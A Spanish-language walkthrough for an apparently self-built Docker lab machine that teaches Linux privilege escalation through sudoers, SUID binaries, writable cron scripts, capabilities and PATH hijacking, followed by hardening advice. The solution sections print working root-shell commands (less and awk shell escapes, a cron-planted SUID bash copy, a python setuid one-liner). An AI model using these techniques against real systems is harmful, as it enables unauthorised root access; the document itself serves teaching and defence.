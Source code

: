 = Envidia
:author: Manuel L. Quero
:toc: left
:doctype: book

== Despliegue de la máquina

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después deberemos meter en un directorio tanto el auto_deploy.sh como el archivo de envidia.tar, y ejecutar los siguientes comandos.

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh envidia.tar
----

== Escalada de privilegios

La escalada de privilegios es el uso de una falla de software, una vulnerabilidad, un defecto de diseño, una falla de configuración o un control de acceso en un sistema operativo o aplicación para obtener acceso no autorizado a recursos que normalmente están restringidos para una aplicación o usuario.

Como resultado, la aplicación o el usuario obtienen más privilegios de los que fueron diseñados por el desarrollador o administrador del sistema, lo que permite a los atacantes acceder a información confidencial, instalar malware y lanzar otros ciberataques.

=== Tipos de escalada

. *Escalada de privilegios vertical* -> El atacante comienza con una cuenta de bajo nivel (por ejemplo, un usuario estándar) y busca elevar sus privilegios para obtener acceso administrativo (como root en Linux o administrador en Windows). El objetivo común es acceder a datos sensibles, instalar malware, ejecutar comandos como administrador.

. *Escalada de privilegios horizontal* -> El atacante ya posee una cuenta privilegiada, pero intenta acceder a recursos o funciones que están fuera del alcance original de ese usuario. En aplicaciones web implica acceder a cuentas de otros usuarios, como acceder al panel de administrador desde una cuenta normal.

=== Vectores de ataque

Nosotros nos vamos a centrar en la escalada de privilegios vertical.

==== 1. Archivo sudoers

El archivo Sudoers es el archivo en el que se almacenan los usuarios y grupos que tienen privilegios root para ejecutar algunas o todas las órdenes como root o otro usuario, este archivo se encuentra en /etc. La sintaxis es la siguiente para el permiso root por defecto *"root ALL = (ALL: ALL) ALL"*, aunque también hay una opción TAG disponible que es opcional.

image::assets/Sintaxis.png[Sintaxis sudoers,width=500,align=center]

Por lo que en este archivo se puede dar privilegios root a los comandos binarios, poniendo en la configuración el binario en concreto *"NOPASSWD : /usr/bin/find"* este tipo de autorización lleva a una elevación de privilegios para acceder a root, además la etiqueta NOPASSWD significa que no se pedirá ninguna contraseña para la autenticación al ejecutar el comando sudo -l.

==== 2. Binario SUID

El bit SUID (Set User ID) se utiliza en archivos ejecutables para otorgar al usuario que los ejecute los privilegios del propietario del archivo (generalmente root). Esto es necesario en algunos binarios, como /usr/bin/passwd, para realizar acciones que requieren permisos elevados.

Sin embargo, si el binario con el bit SUID activado es vulnerable, un atacante puede explotarlo para ejecutar comandos como root. Este tipo de vulnerabilidad puede ser detectado fácilmente usando herramientas como find para localizar archivos con el bit SUID activado.

==== 3. Cron ejecutando script editable

Primeramente, debemos entender crontab, hay dos tipos:

* *Crontab del sistema* -> Se encuentra en */etc/crontab*, principalmente sirve para programar tareas a nivel global (para todos los usuarios). Además, puede contener scripts que se ejecutan con privilegios elevados.

* *Crontab de usuario* -> Se crea con el comando *crontab -e*, por lo que las tareas solo afectan al usuario que las crea y se almacenan en /var/spool/cron/crontabs, pero los usuarios estándar no pueden ver ni listar estos archivos directamente. También se conocen como “cron jobs ocultos”.

Por lo que un usuario malintencionado podría modificar un script que se ejecuta automáticamente como root desde /etc/crontab si tiene permisos de escritura sobre ese archivo o script, logrando así ejecutar código malicioso con privilegios elevados.

Se puede ver el contenido en *cat /etc/crontab*. Esto es útil para identificar scripts vulnerables que podrían ser aprovechados para una escalada de privilegios.

==== 4. Capacidades en binario

Antes de las capabilities, los procesos en Linux solo se diferenciaban entre privilegiados (root) y no privilegiados (usuarios normales). Con las capabilities, los privilegios de root se dividen en pequeños permisos, permitiendo que los procesos tengan solo los permisos necesarios para realizar tareas específicas, mejorando así la seguridad.

La diferencia entre SUID y capabilities es:

* *SUID (Set User ID)* -> Permite a un usuario ejecutar un archivo con los permisos de su propietario (generalmente root). Es fácil de detectar y puede ser peligroso si el binario es vulnerable.

* *Capabilities* -> Asignan permisos más específicos a los procesos. Por ejemplo, en lugar de dar acceso total a root, se puede permitir que un binario escuche en un puerto sin ser root, utilizando capacidades como *CAP_NET_BIND_SERVICE*.

Los valores de las capabilites son:

* *P (Permitted)* -> Marca la capability como habilitada. Es decir, ahora esta podrá tener el valor de Effective o Inheritable.

* *E (Effective)* -> Aplica la capability al proceso definido.

* *I (Inheritable)* -> La pueden heredar los subprocesos.

Las capabilities permiten dividir los privilegios de root en partes más pequeñas, otorgando solo los permisos necesarios. Esto mejora la seguridad, ya que los procesos reciben solo lo que necesitan para ejecutar tareas específicas. Pero si una capability se asigna a un binario de manera inapropiada, puede permitir a los usuarios ejecutar acciones que deberían estar restringidas.

image::assets/Capabilities.png[Capabilities,width=500,align=center]

==== 5. PATH Hijacking

El PATH Hijacking se produce cuando un script que se ejecuta con privilegios elevados (como root) llama a comandos sin especificar una ruta absoluta. Si un atacante puede manipular el entorno PATH, podría colocar un ejecutable malicioso en una ruta que aparezca antes en el orden de búsqueda del PATH. De esta manera, el sistema ejecutaría el archivo malicioso en lugar del ejecutable legítimo, lo que permitiría al atacante ejecutar código malicioso con privilegios elevados.

==== Otros vectores

*NFS* permite compartir directorios y archivos entre sistemas a través de una red. Sin embargo, una configuración incorrecta puede introducir vulnerabilidades críticas que faciliten la escalada de privilegios.

La opción *no_root_squash* en la configuración de NFS permite que el usuario root en el cliente mantenga privilegios de root en el servidor al acceder a los recursos compartidos. Esto puede ser explotado por un atacante para crear archivos con permisos SUID en el servidor, facilitando la obtención de una shell con privilegios elevados. Por defecto, NFS utiliza root_squash para mapear al usuario root del cliente a un usuario anónimo sin privilegios, como nfsnobody, mitigando este riesgo.

== Solucionar la máquina

En esta guía nos centraremos en la escalada de privilegios vertical, aprendiendo cómo elevar los privilegios desde un usuario estándar en distintos contextos. En esta máquina, simularemos que ya hemos obtenido las credenciales de un usuario. Es importante mencionar que existen muchas técnicas para escalar privilegios, pero aquí veremos las más comunes.

Además, a lo largo de esta máquina veremos vulnerabilidades de binarios así que recomiendo este repositorio: https://gtfobins.github.io/[GTFOBins]

Debemos tener en cuenta que hay tres servicios activos:

* *Apache* → Muestra archivos del servidor FTP: (http://dante.172.35.0.2.nip.io)

* *FTP* → Permite subir archivos autenticándonos como usuario: (ftpuser:ftp123)

* *SSH* → Proporciona acceso al sistema para gestión remota: (user:password)

Dado que ya disponemos de las credenciales, nos conectamos al contenedor SSH.

[source,bash]
----
$ ssh user@172.35.0.4 -p 22
----

Si nos sale un error ponemos el comando que nos indica:

image::assets/SSHerror.png[SSHerror,width=320,align=center]

=== 1. Archivo sudoers

==== Reconocimiento

Una vez dentro como usuario, deberemos verificar si tenemos privilegios sobre algún comando específico, para ello usamos el siguiente comando:

[source,bash]
----
$ sudo -l
----

* *-l* -> Lista los comandos específicos a los que el usuario tiene privilegios.

image::assets/sudoers/sudoL.png[comando sudo -l,width=500,align=center]

==== Escalada

Cómo podemos ver tenemos permisos en los binarios de less y awk. No necesitamos conocer cómo funciona el comando, sino cómo vulnerarlo, por lo que podemos buscarlo en GTFOBins,:

===== less

Buscando en GTFOBins, en la sección de *Sudo* encontraremos cómo vulnerarlo -> https://gtfobins.github.io/gtfobins/less/[GTFOBins less]

Entonces, como este comando usa root, lo que necesitaremos es crear una shell dentro de él, entonces los comandos que ejecute esa shell serán de administrador y habremos escalado:

[source,bash]
----
$ sudo less /etc/profile
$ !/bin/sh
----

image::assets/sudoers/less1.png[less,width=320,align=center]

image::assets/sudoers/less2.png[escalar con less,width=160,align=center]

===== awk 

Hacemos el mismo proceso anterior, buscando en GTFOBins -> https://gtfobins.github.io/gtfobins/awk/[GTFOBins awk]

[source,bash]
----
$ sudo awk 'BEGIN {system("/bin/sh")}'
----

image::assets/sudoers/awk.png[awk,width=240,align=center]

De esta forma podemos escalar de privilegios si tenemos permisos de root en algunos comandos.

=== 2. Binario SUID

==== Reconocimiento

Primeramente, vamos a buscar los binarios SUID que hay en el sistema:

[source,bash]
----
$ find / -perm -4000 -type f 2>/dev/null
----

image::assets/suid/reconfind.png[reconocimeineto,width=240,align=center]

Podemos ver que hay una ruta que es distinta a todas las otras, podemos ver su código para entender mejor que ocurre si lo ejecutamos.

image::assets/suid/codigo.png[ver codigo,width=200,align=center]

==== Escalada

Es un código escrito en python3 que inicia una shell, cómo tiene el bit SUID, abrirá dicha shell como root. Por lo que nos disponemos a ejecutarlo:

image::assets/suid/root.png[escalar root,width=200,align=center]

Y cómo podemos ver somos root, esto es muy útil conocerlo, ya que, si un servicio con privilegios de root le diese el bit SUID a un archivo, este se ejecutaría con permisos de root, lo cual lo vamos a ver en el siguiente vector.

<<<

=== 3. Cron ejecutando script editable

==== Reconocimiento

Para este caso, deberemos comprobar primeramente qué se está ejecutando con crontab, de esta forma podemos ver si hay algún archivo vulnerable. Por lo que ejecutamos el siguiente comando para verlo:

[source,bash]
----
$ cat /etc/crontab
----

image::assets/cronjob/cronjob.png[cronjob,width=540,align=center]

En este caso, no aparece ningún archivo que se esté ejecutando, por lo que miramos en otras rutas:

[source,bash]
----
$ ls -l /etc/cron*
----

image::assets/cronjob/cronlist.png[lista cron,width=340,align=center]

Podemos ver que hay uno que se ha ejecutado recientemente, y podemos leerlo, posiblemente tenga la ruta del script que ejecute:

image::assets/cronjob/horacron.png[hora cron,width=440,align=center]

El contenido nos muestra que cada minuto ejecuta ese script y lo almacena en un log, por lo que podemos ver los logs:

image::assets/cronjob/horalogs.png[logs,width=200,align=center]

Por lo que este script da la hora cada minuto, entonces vamos a ver sus permisos y si podemos editarlo:

[source,bash]
----
$ ls -la /usr/local/bin/hora.sh
----

image::assets/cronjob/hora1.png[hora,width=480,align=center]

==== Escalada

Cómo tiene permisos de escritura para otros, podemos editarlo y sobrescribir en el archivo. Así que vamos a ejecutar una shell como root creando en /tmp el archivo rootbash:

[source,bash]
----
$ echo '#!/bin/bash' > /usr/local/bin/hora.sh 
$ echo 'cp /bin/bash /tmp/rootbash' >> /usr/local/bin/hora.sh    
$ echo 'chown root:root /tmp/rootbash' >> /usr/local/bin/hora.sh    
$ echo 'chmod +s /tmp/rootbash' >> /usr/local/bin/hora.sh 
----

Este conjunto de comandos sobrescribe el script /usr/local/bin/hora.sh que será ejecutado automáticamente por cron con privilegios de root. El script copia el binario de bash a /tmp/rootbash, cambia su propietario a root y le aplica el bit SUID, lo que permite que cualquier usuario que lo ejecute obtenga una shell con privilegios de root, cómo hemos visto antes.

image::assets/cronjob/horaeditar.png[editar archivo,align=center]

Una vez hecho esto, esperamos a que cronjob lo ejecute como root:

image::assets/cronjob/horaroot.png[escalada root,align=center]

De esta forma hemos visto como encontrar ejecutables vulnerables con cronjob, aunque hay herramientas que pueden facilitarnos el trabajo como:

* https://github.com/peass-ng/PEASS-ng/[LinPEAS]
* https://github.com/DominicBreuker/pspy[pspy]

Hay muchas formas de vulnerar cronjob mediante otros vectores, por lo que recomiendo mirar -> https://juggernaut-sec.com/cron-jobs-lpe/[Escalada con Cronjob].

=== 4. Capacidades en binario

==== Reconocimiento

Deberemos conocer que paquetes tiene instalados el sistema, ya que puede tener lenguajes cómo python que nos pueden ayudar a escalar, por lo que buscamos entre todos hasta que encontremos alguno que nos interese:

[source,bash]
----
$ dpkg -l
----

image::assets/capabilities/dpkg.png[dpkg,align=center]

<<<

Cómo tiene python podemos hacer un sleep con este para ver el número de proceso es y ver sus capabilities:

[source,bash]
----
$ python3 -c 'import time; time.sleep(500)'
----

image::assets/capabilities/psaux.png[psaux,align=center]

Podemos ver que su PID es el 1022, para encontrar las capabilities podemos verlo en /proc, donde habrá varios números los cuales son los IDs de los procesos:

image::assets/capabilities/pid.png[pid,width=240,align=center]

Para ver que capabilities tiene ese proceso ponemos el siguiente comando:

[source,bash]
----
$ cat /proc/(PID)/status | grep Cap
----

image::assets/capabilities/cap.png[capabilities,width=240,align=center]

Estos nos aparecerán en hexadecimal, para entenderlo podemos usar *capsh*, el cual podemos instalar en nuestro sistema y decodificar cada hexadecimal. En este caso solo tenemos tres números, pero antes de esto debemos entender las líneas:

[source,bash]
----
CapInh -> Capabilities Inherentes (Inheritable)
CapPrm -> Capabilities Permitidas (Permitted)
CapEff -> Capabilities Efectivas (Effective)
CapBnd -> Límite de Bound capabilities
CapAmb -> Ambient capabilities
----

En cuanto a los números tenemos:

image::assets/capabilities/numeros.png[numeros hex,align=center]

El que nos interesa es *CAP_SETUID* que aparece en *CapPrm* y *CapEff*, esto significa que permite a un proceso cambiar su UID y, por lo tanto, escalar privilegios. Normalmente, solo el usuario root puede hacer esto, pero si un proceso tiene CAP_SETUID, puede cambiar a cualquier otro usuario, incluido root.

==== Escalada

Por lo que si nos vamos a GTFOBins y en la parte de Capabilities -> https://gtfobins.github.io/gtfobins/python/#capabilities[GTFOBins python].

[source,bash]
----
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
----

image::assets/capabilities/root.png[escalada root,width=400,align=center]

Ajustando un poco el comando a python3 podremos escalar como root.

=== 5. PATH Hijacking

==== Reconocimiento:

Primeramente, podemos ver nuestro /home si hay algún script que utilice algún comando normal, como ls, head, etc. En nuestro caso tenemos uno que se llama *top10*, si lo inspeccionamos muestra los 10 primeros usuarios y tiene permisos de root ya que tiene el bit SUID:

image::assets/path/ejecucion.png[ejecucion top10,width=280,align=center]

image::assets/path/Top10.png[Top10,width=280,align=center]

Cómo ejecuta head como root, debe de obtener su función de $PATH:

image::assets/path/path.png[echo $path,width=380,align=center]

==== Escalada

Por lo que nosotros vamos a cambiar el path para que primero mire donde estamos y crearemos un script que nos dé una shell como root.

image::assets/path/cambiarpath.png[cambiar path,width=400,align=center]

image::assets/path/head.png[crear head,width=400,align=center]

Una vez hecho ejecutamos el programa:

image::assets/path/root.png[escalar root,width=200,align=center]

==== Aclaración

Cómo hemos visto en este último, el código del programa estaba en C, si hubiese estado en Python o Bash, no hubiese funcionado el PATH hijacking. Esto es porque el bit SUID solo funciona con binarios compilados (como los hechos en C) porque el sistema los ejecuta directamente y respeta el privilegio del propietario (por ejemplo, root). En cambio, los scripts como Bash o Python son interpretados, y el sistema lanza el intérprete (no el script) sin aplicar el SUID, por seguridad. Así se evita que scripts fácilmente modificables obtengan privilegios elevados.

== ¿Cómo prevenir?

=== 1. Archivo sudoers

* *Revisar permisos* -> Utilizar *sudo -l* para listar los comandos que un usuario puede ejecutar con sudo. De esta forma nos aseguramos de que solo se permitan los comandos necesarios.

* *Evitar NOPASSWD innecesario* -> No otorgar la opción *NOPASSWD* a menos que sea absolutamente necesario, ya que permite ejecutar comandos sin autenticación adicional.

* *Especificar rutas completas* -> En el archivo sudoers es importante definir las rutas completas de los comandos permitidos para evitar que se ejecuten versiones maliciosas ubicadas en otras rutas.

* *Uso de visudo* -> Para editar el archivo *sudoers* se utiliza visudo debido a que la sintaxis incorrecta puede dejarlo con un sistema roto donde es imposible obtener privilegios elevados.

=== 2. Binario SUID

* *Eliminar permisos SUID y SGID innecesarios:*

[source,bash]
----
$ find / -perm -4000 -o -perm -2000 -type f -exec chmod u-s,g-s {}
----

* *Revisar periódicamente archivos con permisos elevados:*

[source,bash]
----
$ find / -perm -4000 -o -perm -2000 -type f 2>/dev/null
----

* *Usar herramientas* -> Implementar herramientas de monitoreo como AuditD y SELinux.

* *Aplicar el principio de privilegio mínimo* -> Evitar que usuarios no administradores tengan acceso a binarios sensibles.

* *Habilitar autentificación multifactor y segmentación de red para minimizar impacto en caso de explotación.*

=== 3. Cronjob

* *Revisar cronjobs* -> Auditar las tareas programadas en /etc/crontab, /etc/cron.d/, y los crontabs de usuarios para identificar posibles riesgos.

* *Restringir permisos de scripts* -> Tenemos que verificar que los scripts ejecutados por cronjobs no sean modificables por usuarios sin privilegios.

* *Evitar ejecutar scripts en directorios temporales* -> No se recomiendan tareas que ejecuten scripts ubicados en directorios como /tmp o /var/tmp.

* *Especificar rutas absolutas* -> En los cronjobs, es importante utilizar rutas absolutas para los comandos y scripts ejecutados.

=== 4. Capabilities

* *Enumerar capabilities asignadas:*

[source,bash]
----
$ getcap -r / 2>/dev/null
----

* *Revocar capabilities innecesarias* -> Podemos usar *setcap -r <archivo>* para eliminar capabilities de binarios que no las requieran.

* *Evitar asignar capabilities peligrosas* -> Por ejemplo, *cap_setuid* o *cap_dac_read_search* pueden ser riesgosas si se asignan a binarios accesibles por usuarios sin privilegios.

* *Implementar políticas de seguridad* -> Se recomienda configurar mecanismos como *AppArmor* o *SELinux* para restringir el uso de capabilities.

=== 5. PATH Hijacking

* *Usar rutas absolutas* -> En scripts y binarios, se debe especificar la ruta completa de los comandos, por ejemplo, /usr/bin/head en lugar de head.

* *Validar y restringir el $PATH* -> Nos debemos asegurar de que el $PATH no incluya directorios escribibles por usuarios sin privilegios, como . o /tmp.

* *Configurar secure_path en sudoers* -> Es importante definir un $PATH seguro para comandos ejecutados con sudo.

* *Revisar scripts con privilegios* -> Podemos auditar scripts que se ejecutan con privilegios elevados para asegurarte de que no sean susceptibles a path hijacking.

=== Otros vectores

Un caso no explorado es el de NFS, aquí veremos cómo mitigarlo:

* *Evitar no_root_squash* -> Nos debemos asegurar de que la opción *no_root_squash* no esté habilitada en el archivo */etc/exports*. Esta opción permite que el usuario root en el cliente NFS tenga privilegios de root en el servidor, lo cual es peligroso.

* *Utilizar root_squash* -> Esta opción mapea las solicitudes del usuario root del cliente a un usuario sin privilegios en el servidor, como *nobody*, reduciendo el riesgo de escalada de privilegios.

* *Montar con opciones seguras* -> En el cliente, debemos montar los sistemas de archivos NFS con las opciones *nosuid* y *nodev* para evitar la ejecución de binarios con el bit SUID y el uso de dispositivos especiales.

* *Restringir el acceso* -> Limitar el acceso a las exportaciones NFS especificando direcciones IP o rangos de red específicos en el archivo /etc/exports, evitando el uso de comodines como *.

* *Auditoría regular* -> Debemos revisar periódicamente las configuraciones de NFS y los permisos de los archivos compartidos para detectar posibles vulnerabilidades.

----
"Hackear un sistema requiere conocer sus reglas mejor que las personas que lo crearon o lo están ejecutando, y explotar toda la distancia vulnerable entre cómo esas personas habían pretendido que funcionara el sistema y cómo realmente funciona, o podría funcionar. Al capitalizar estos usos no intencionales, los hackers no están rompiendo las reglas tanto como desacreditarlas."

- Edward Snowden
----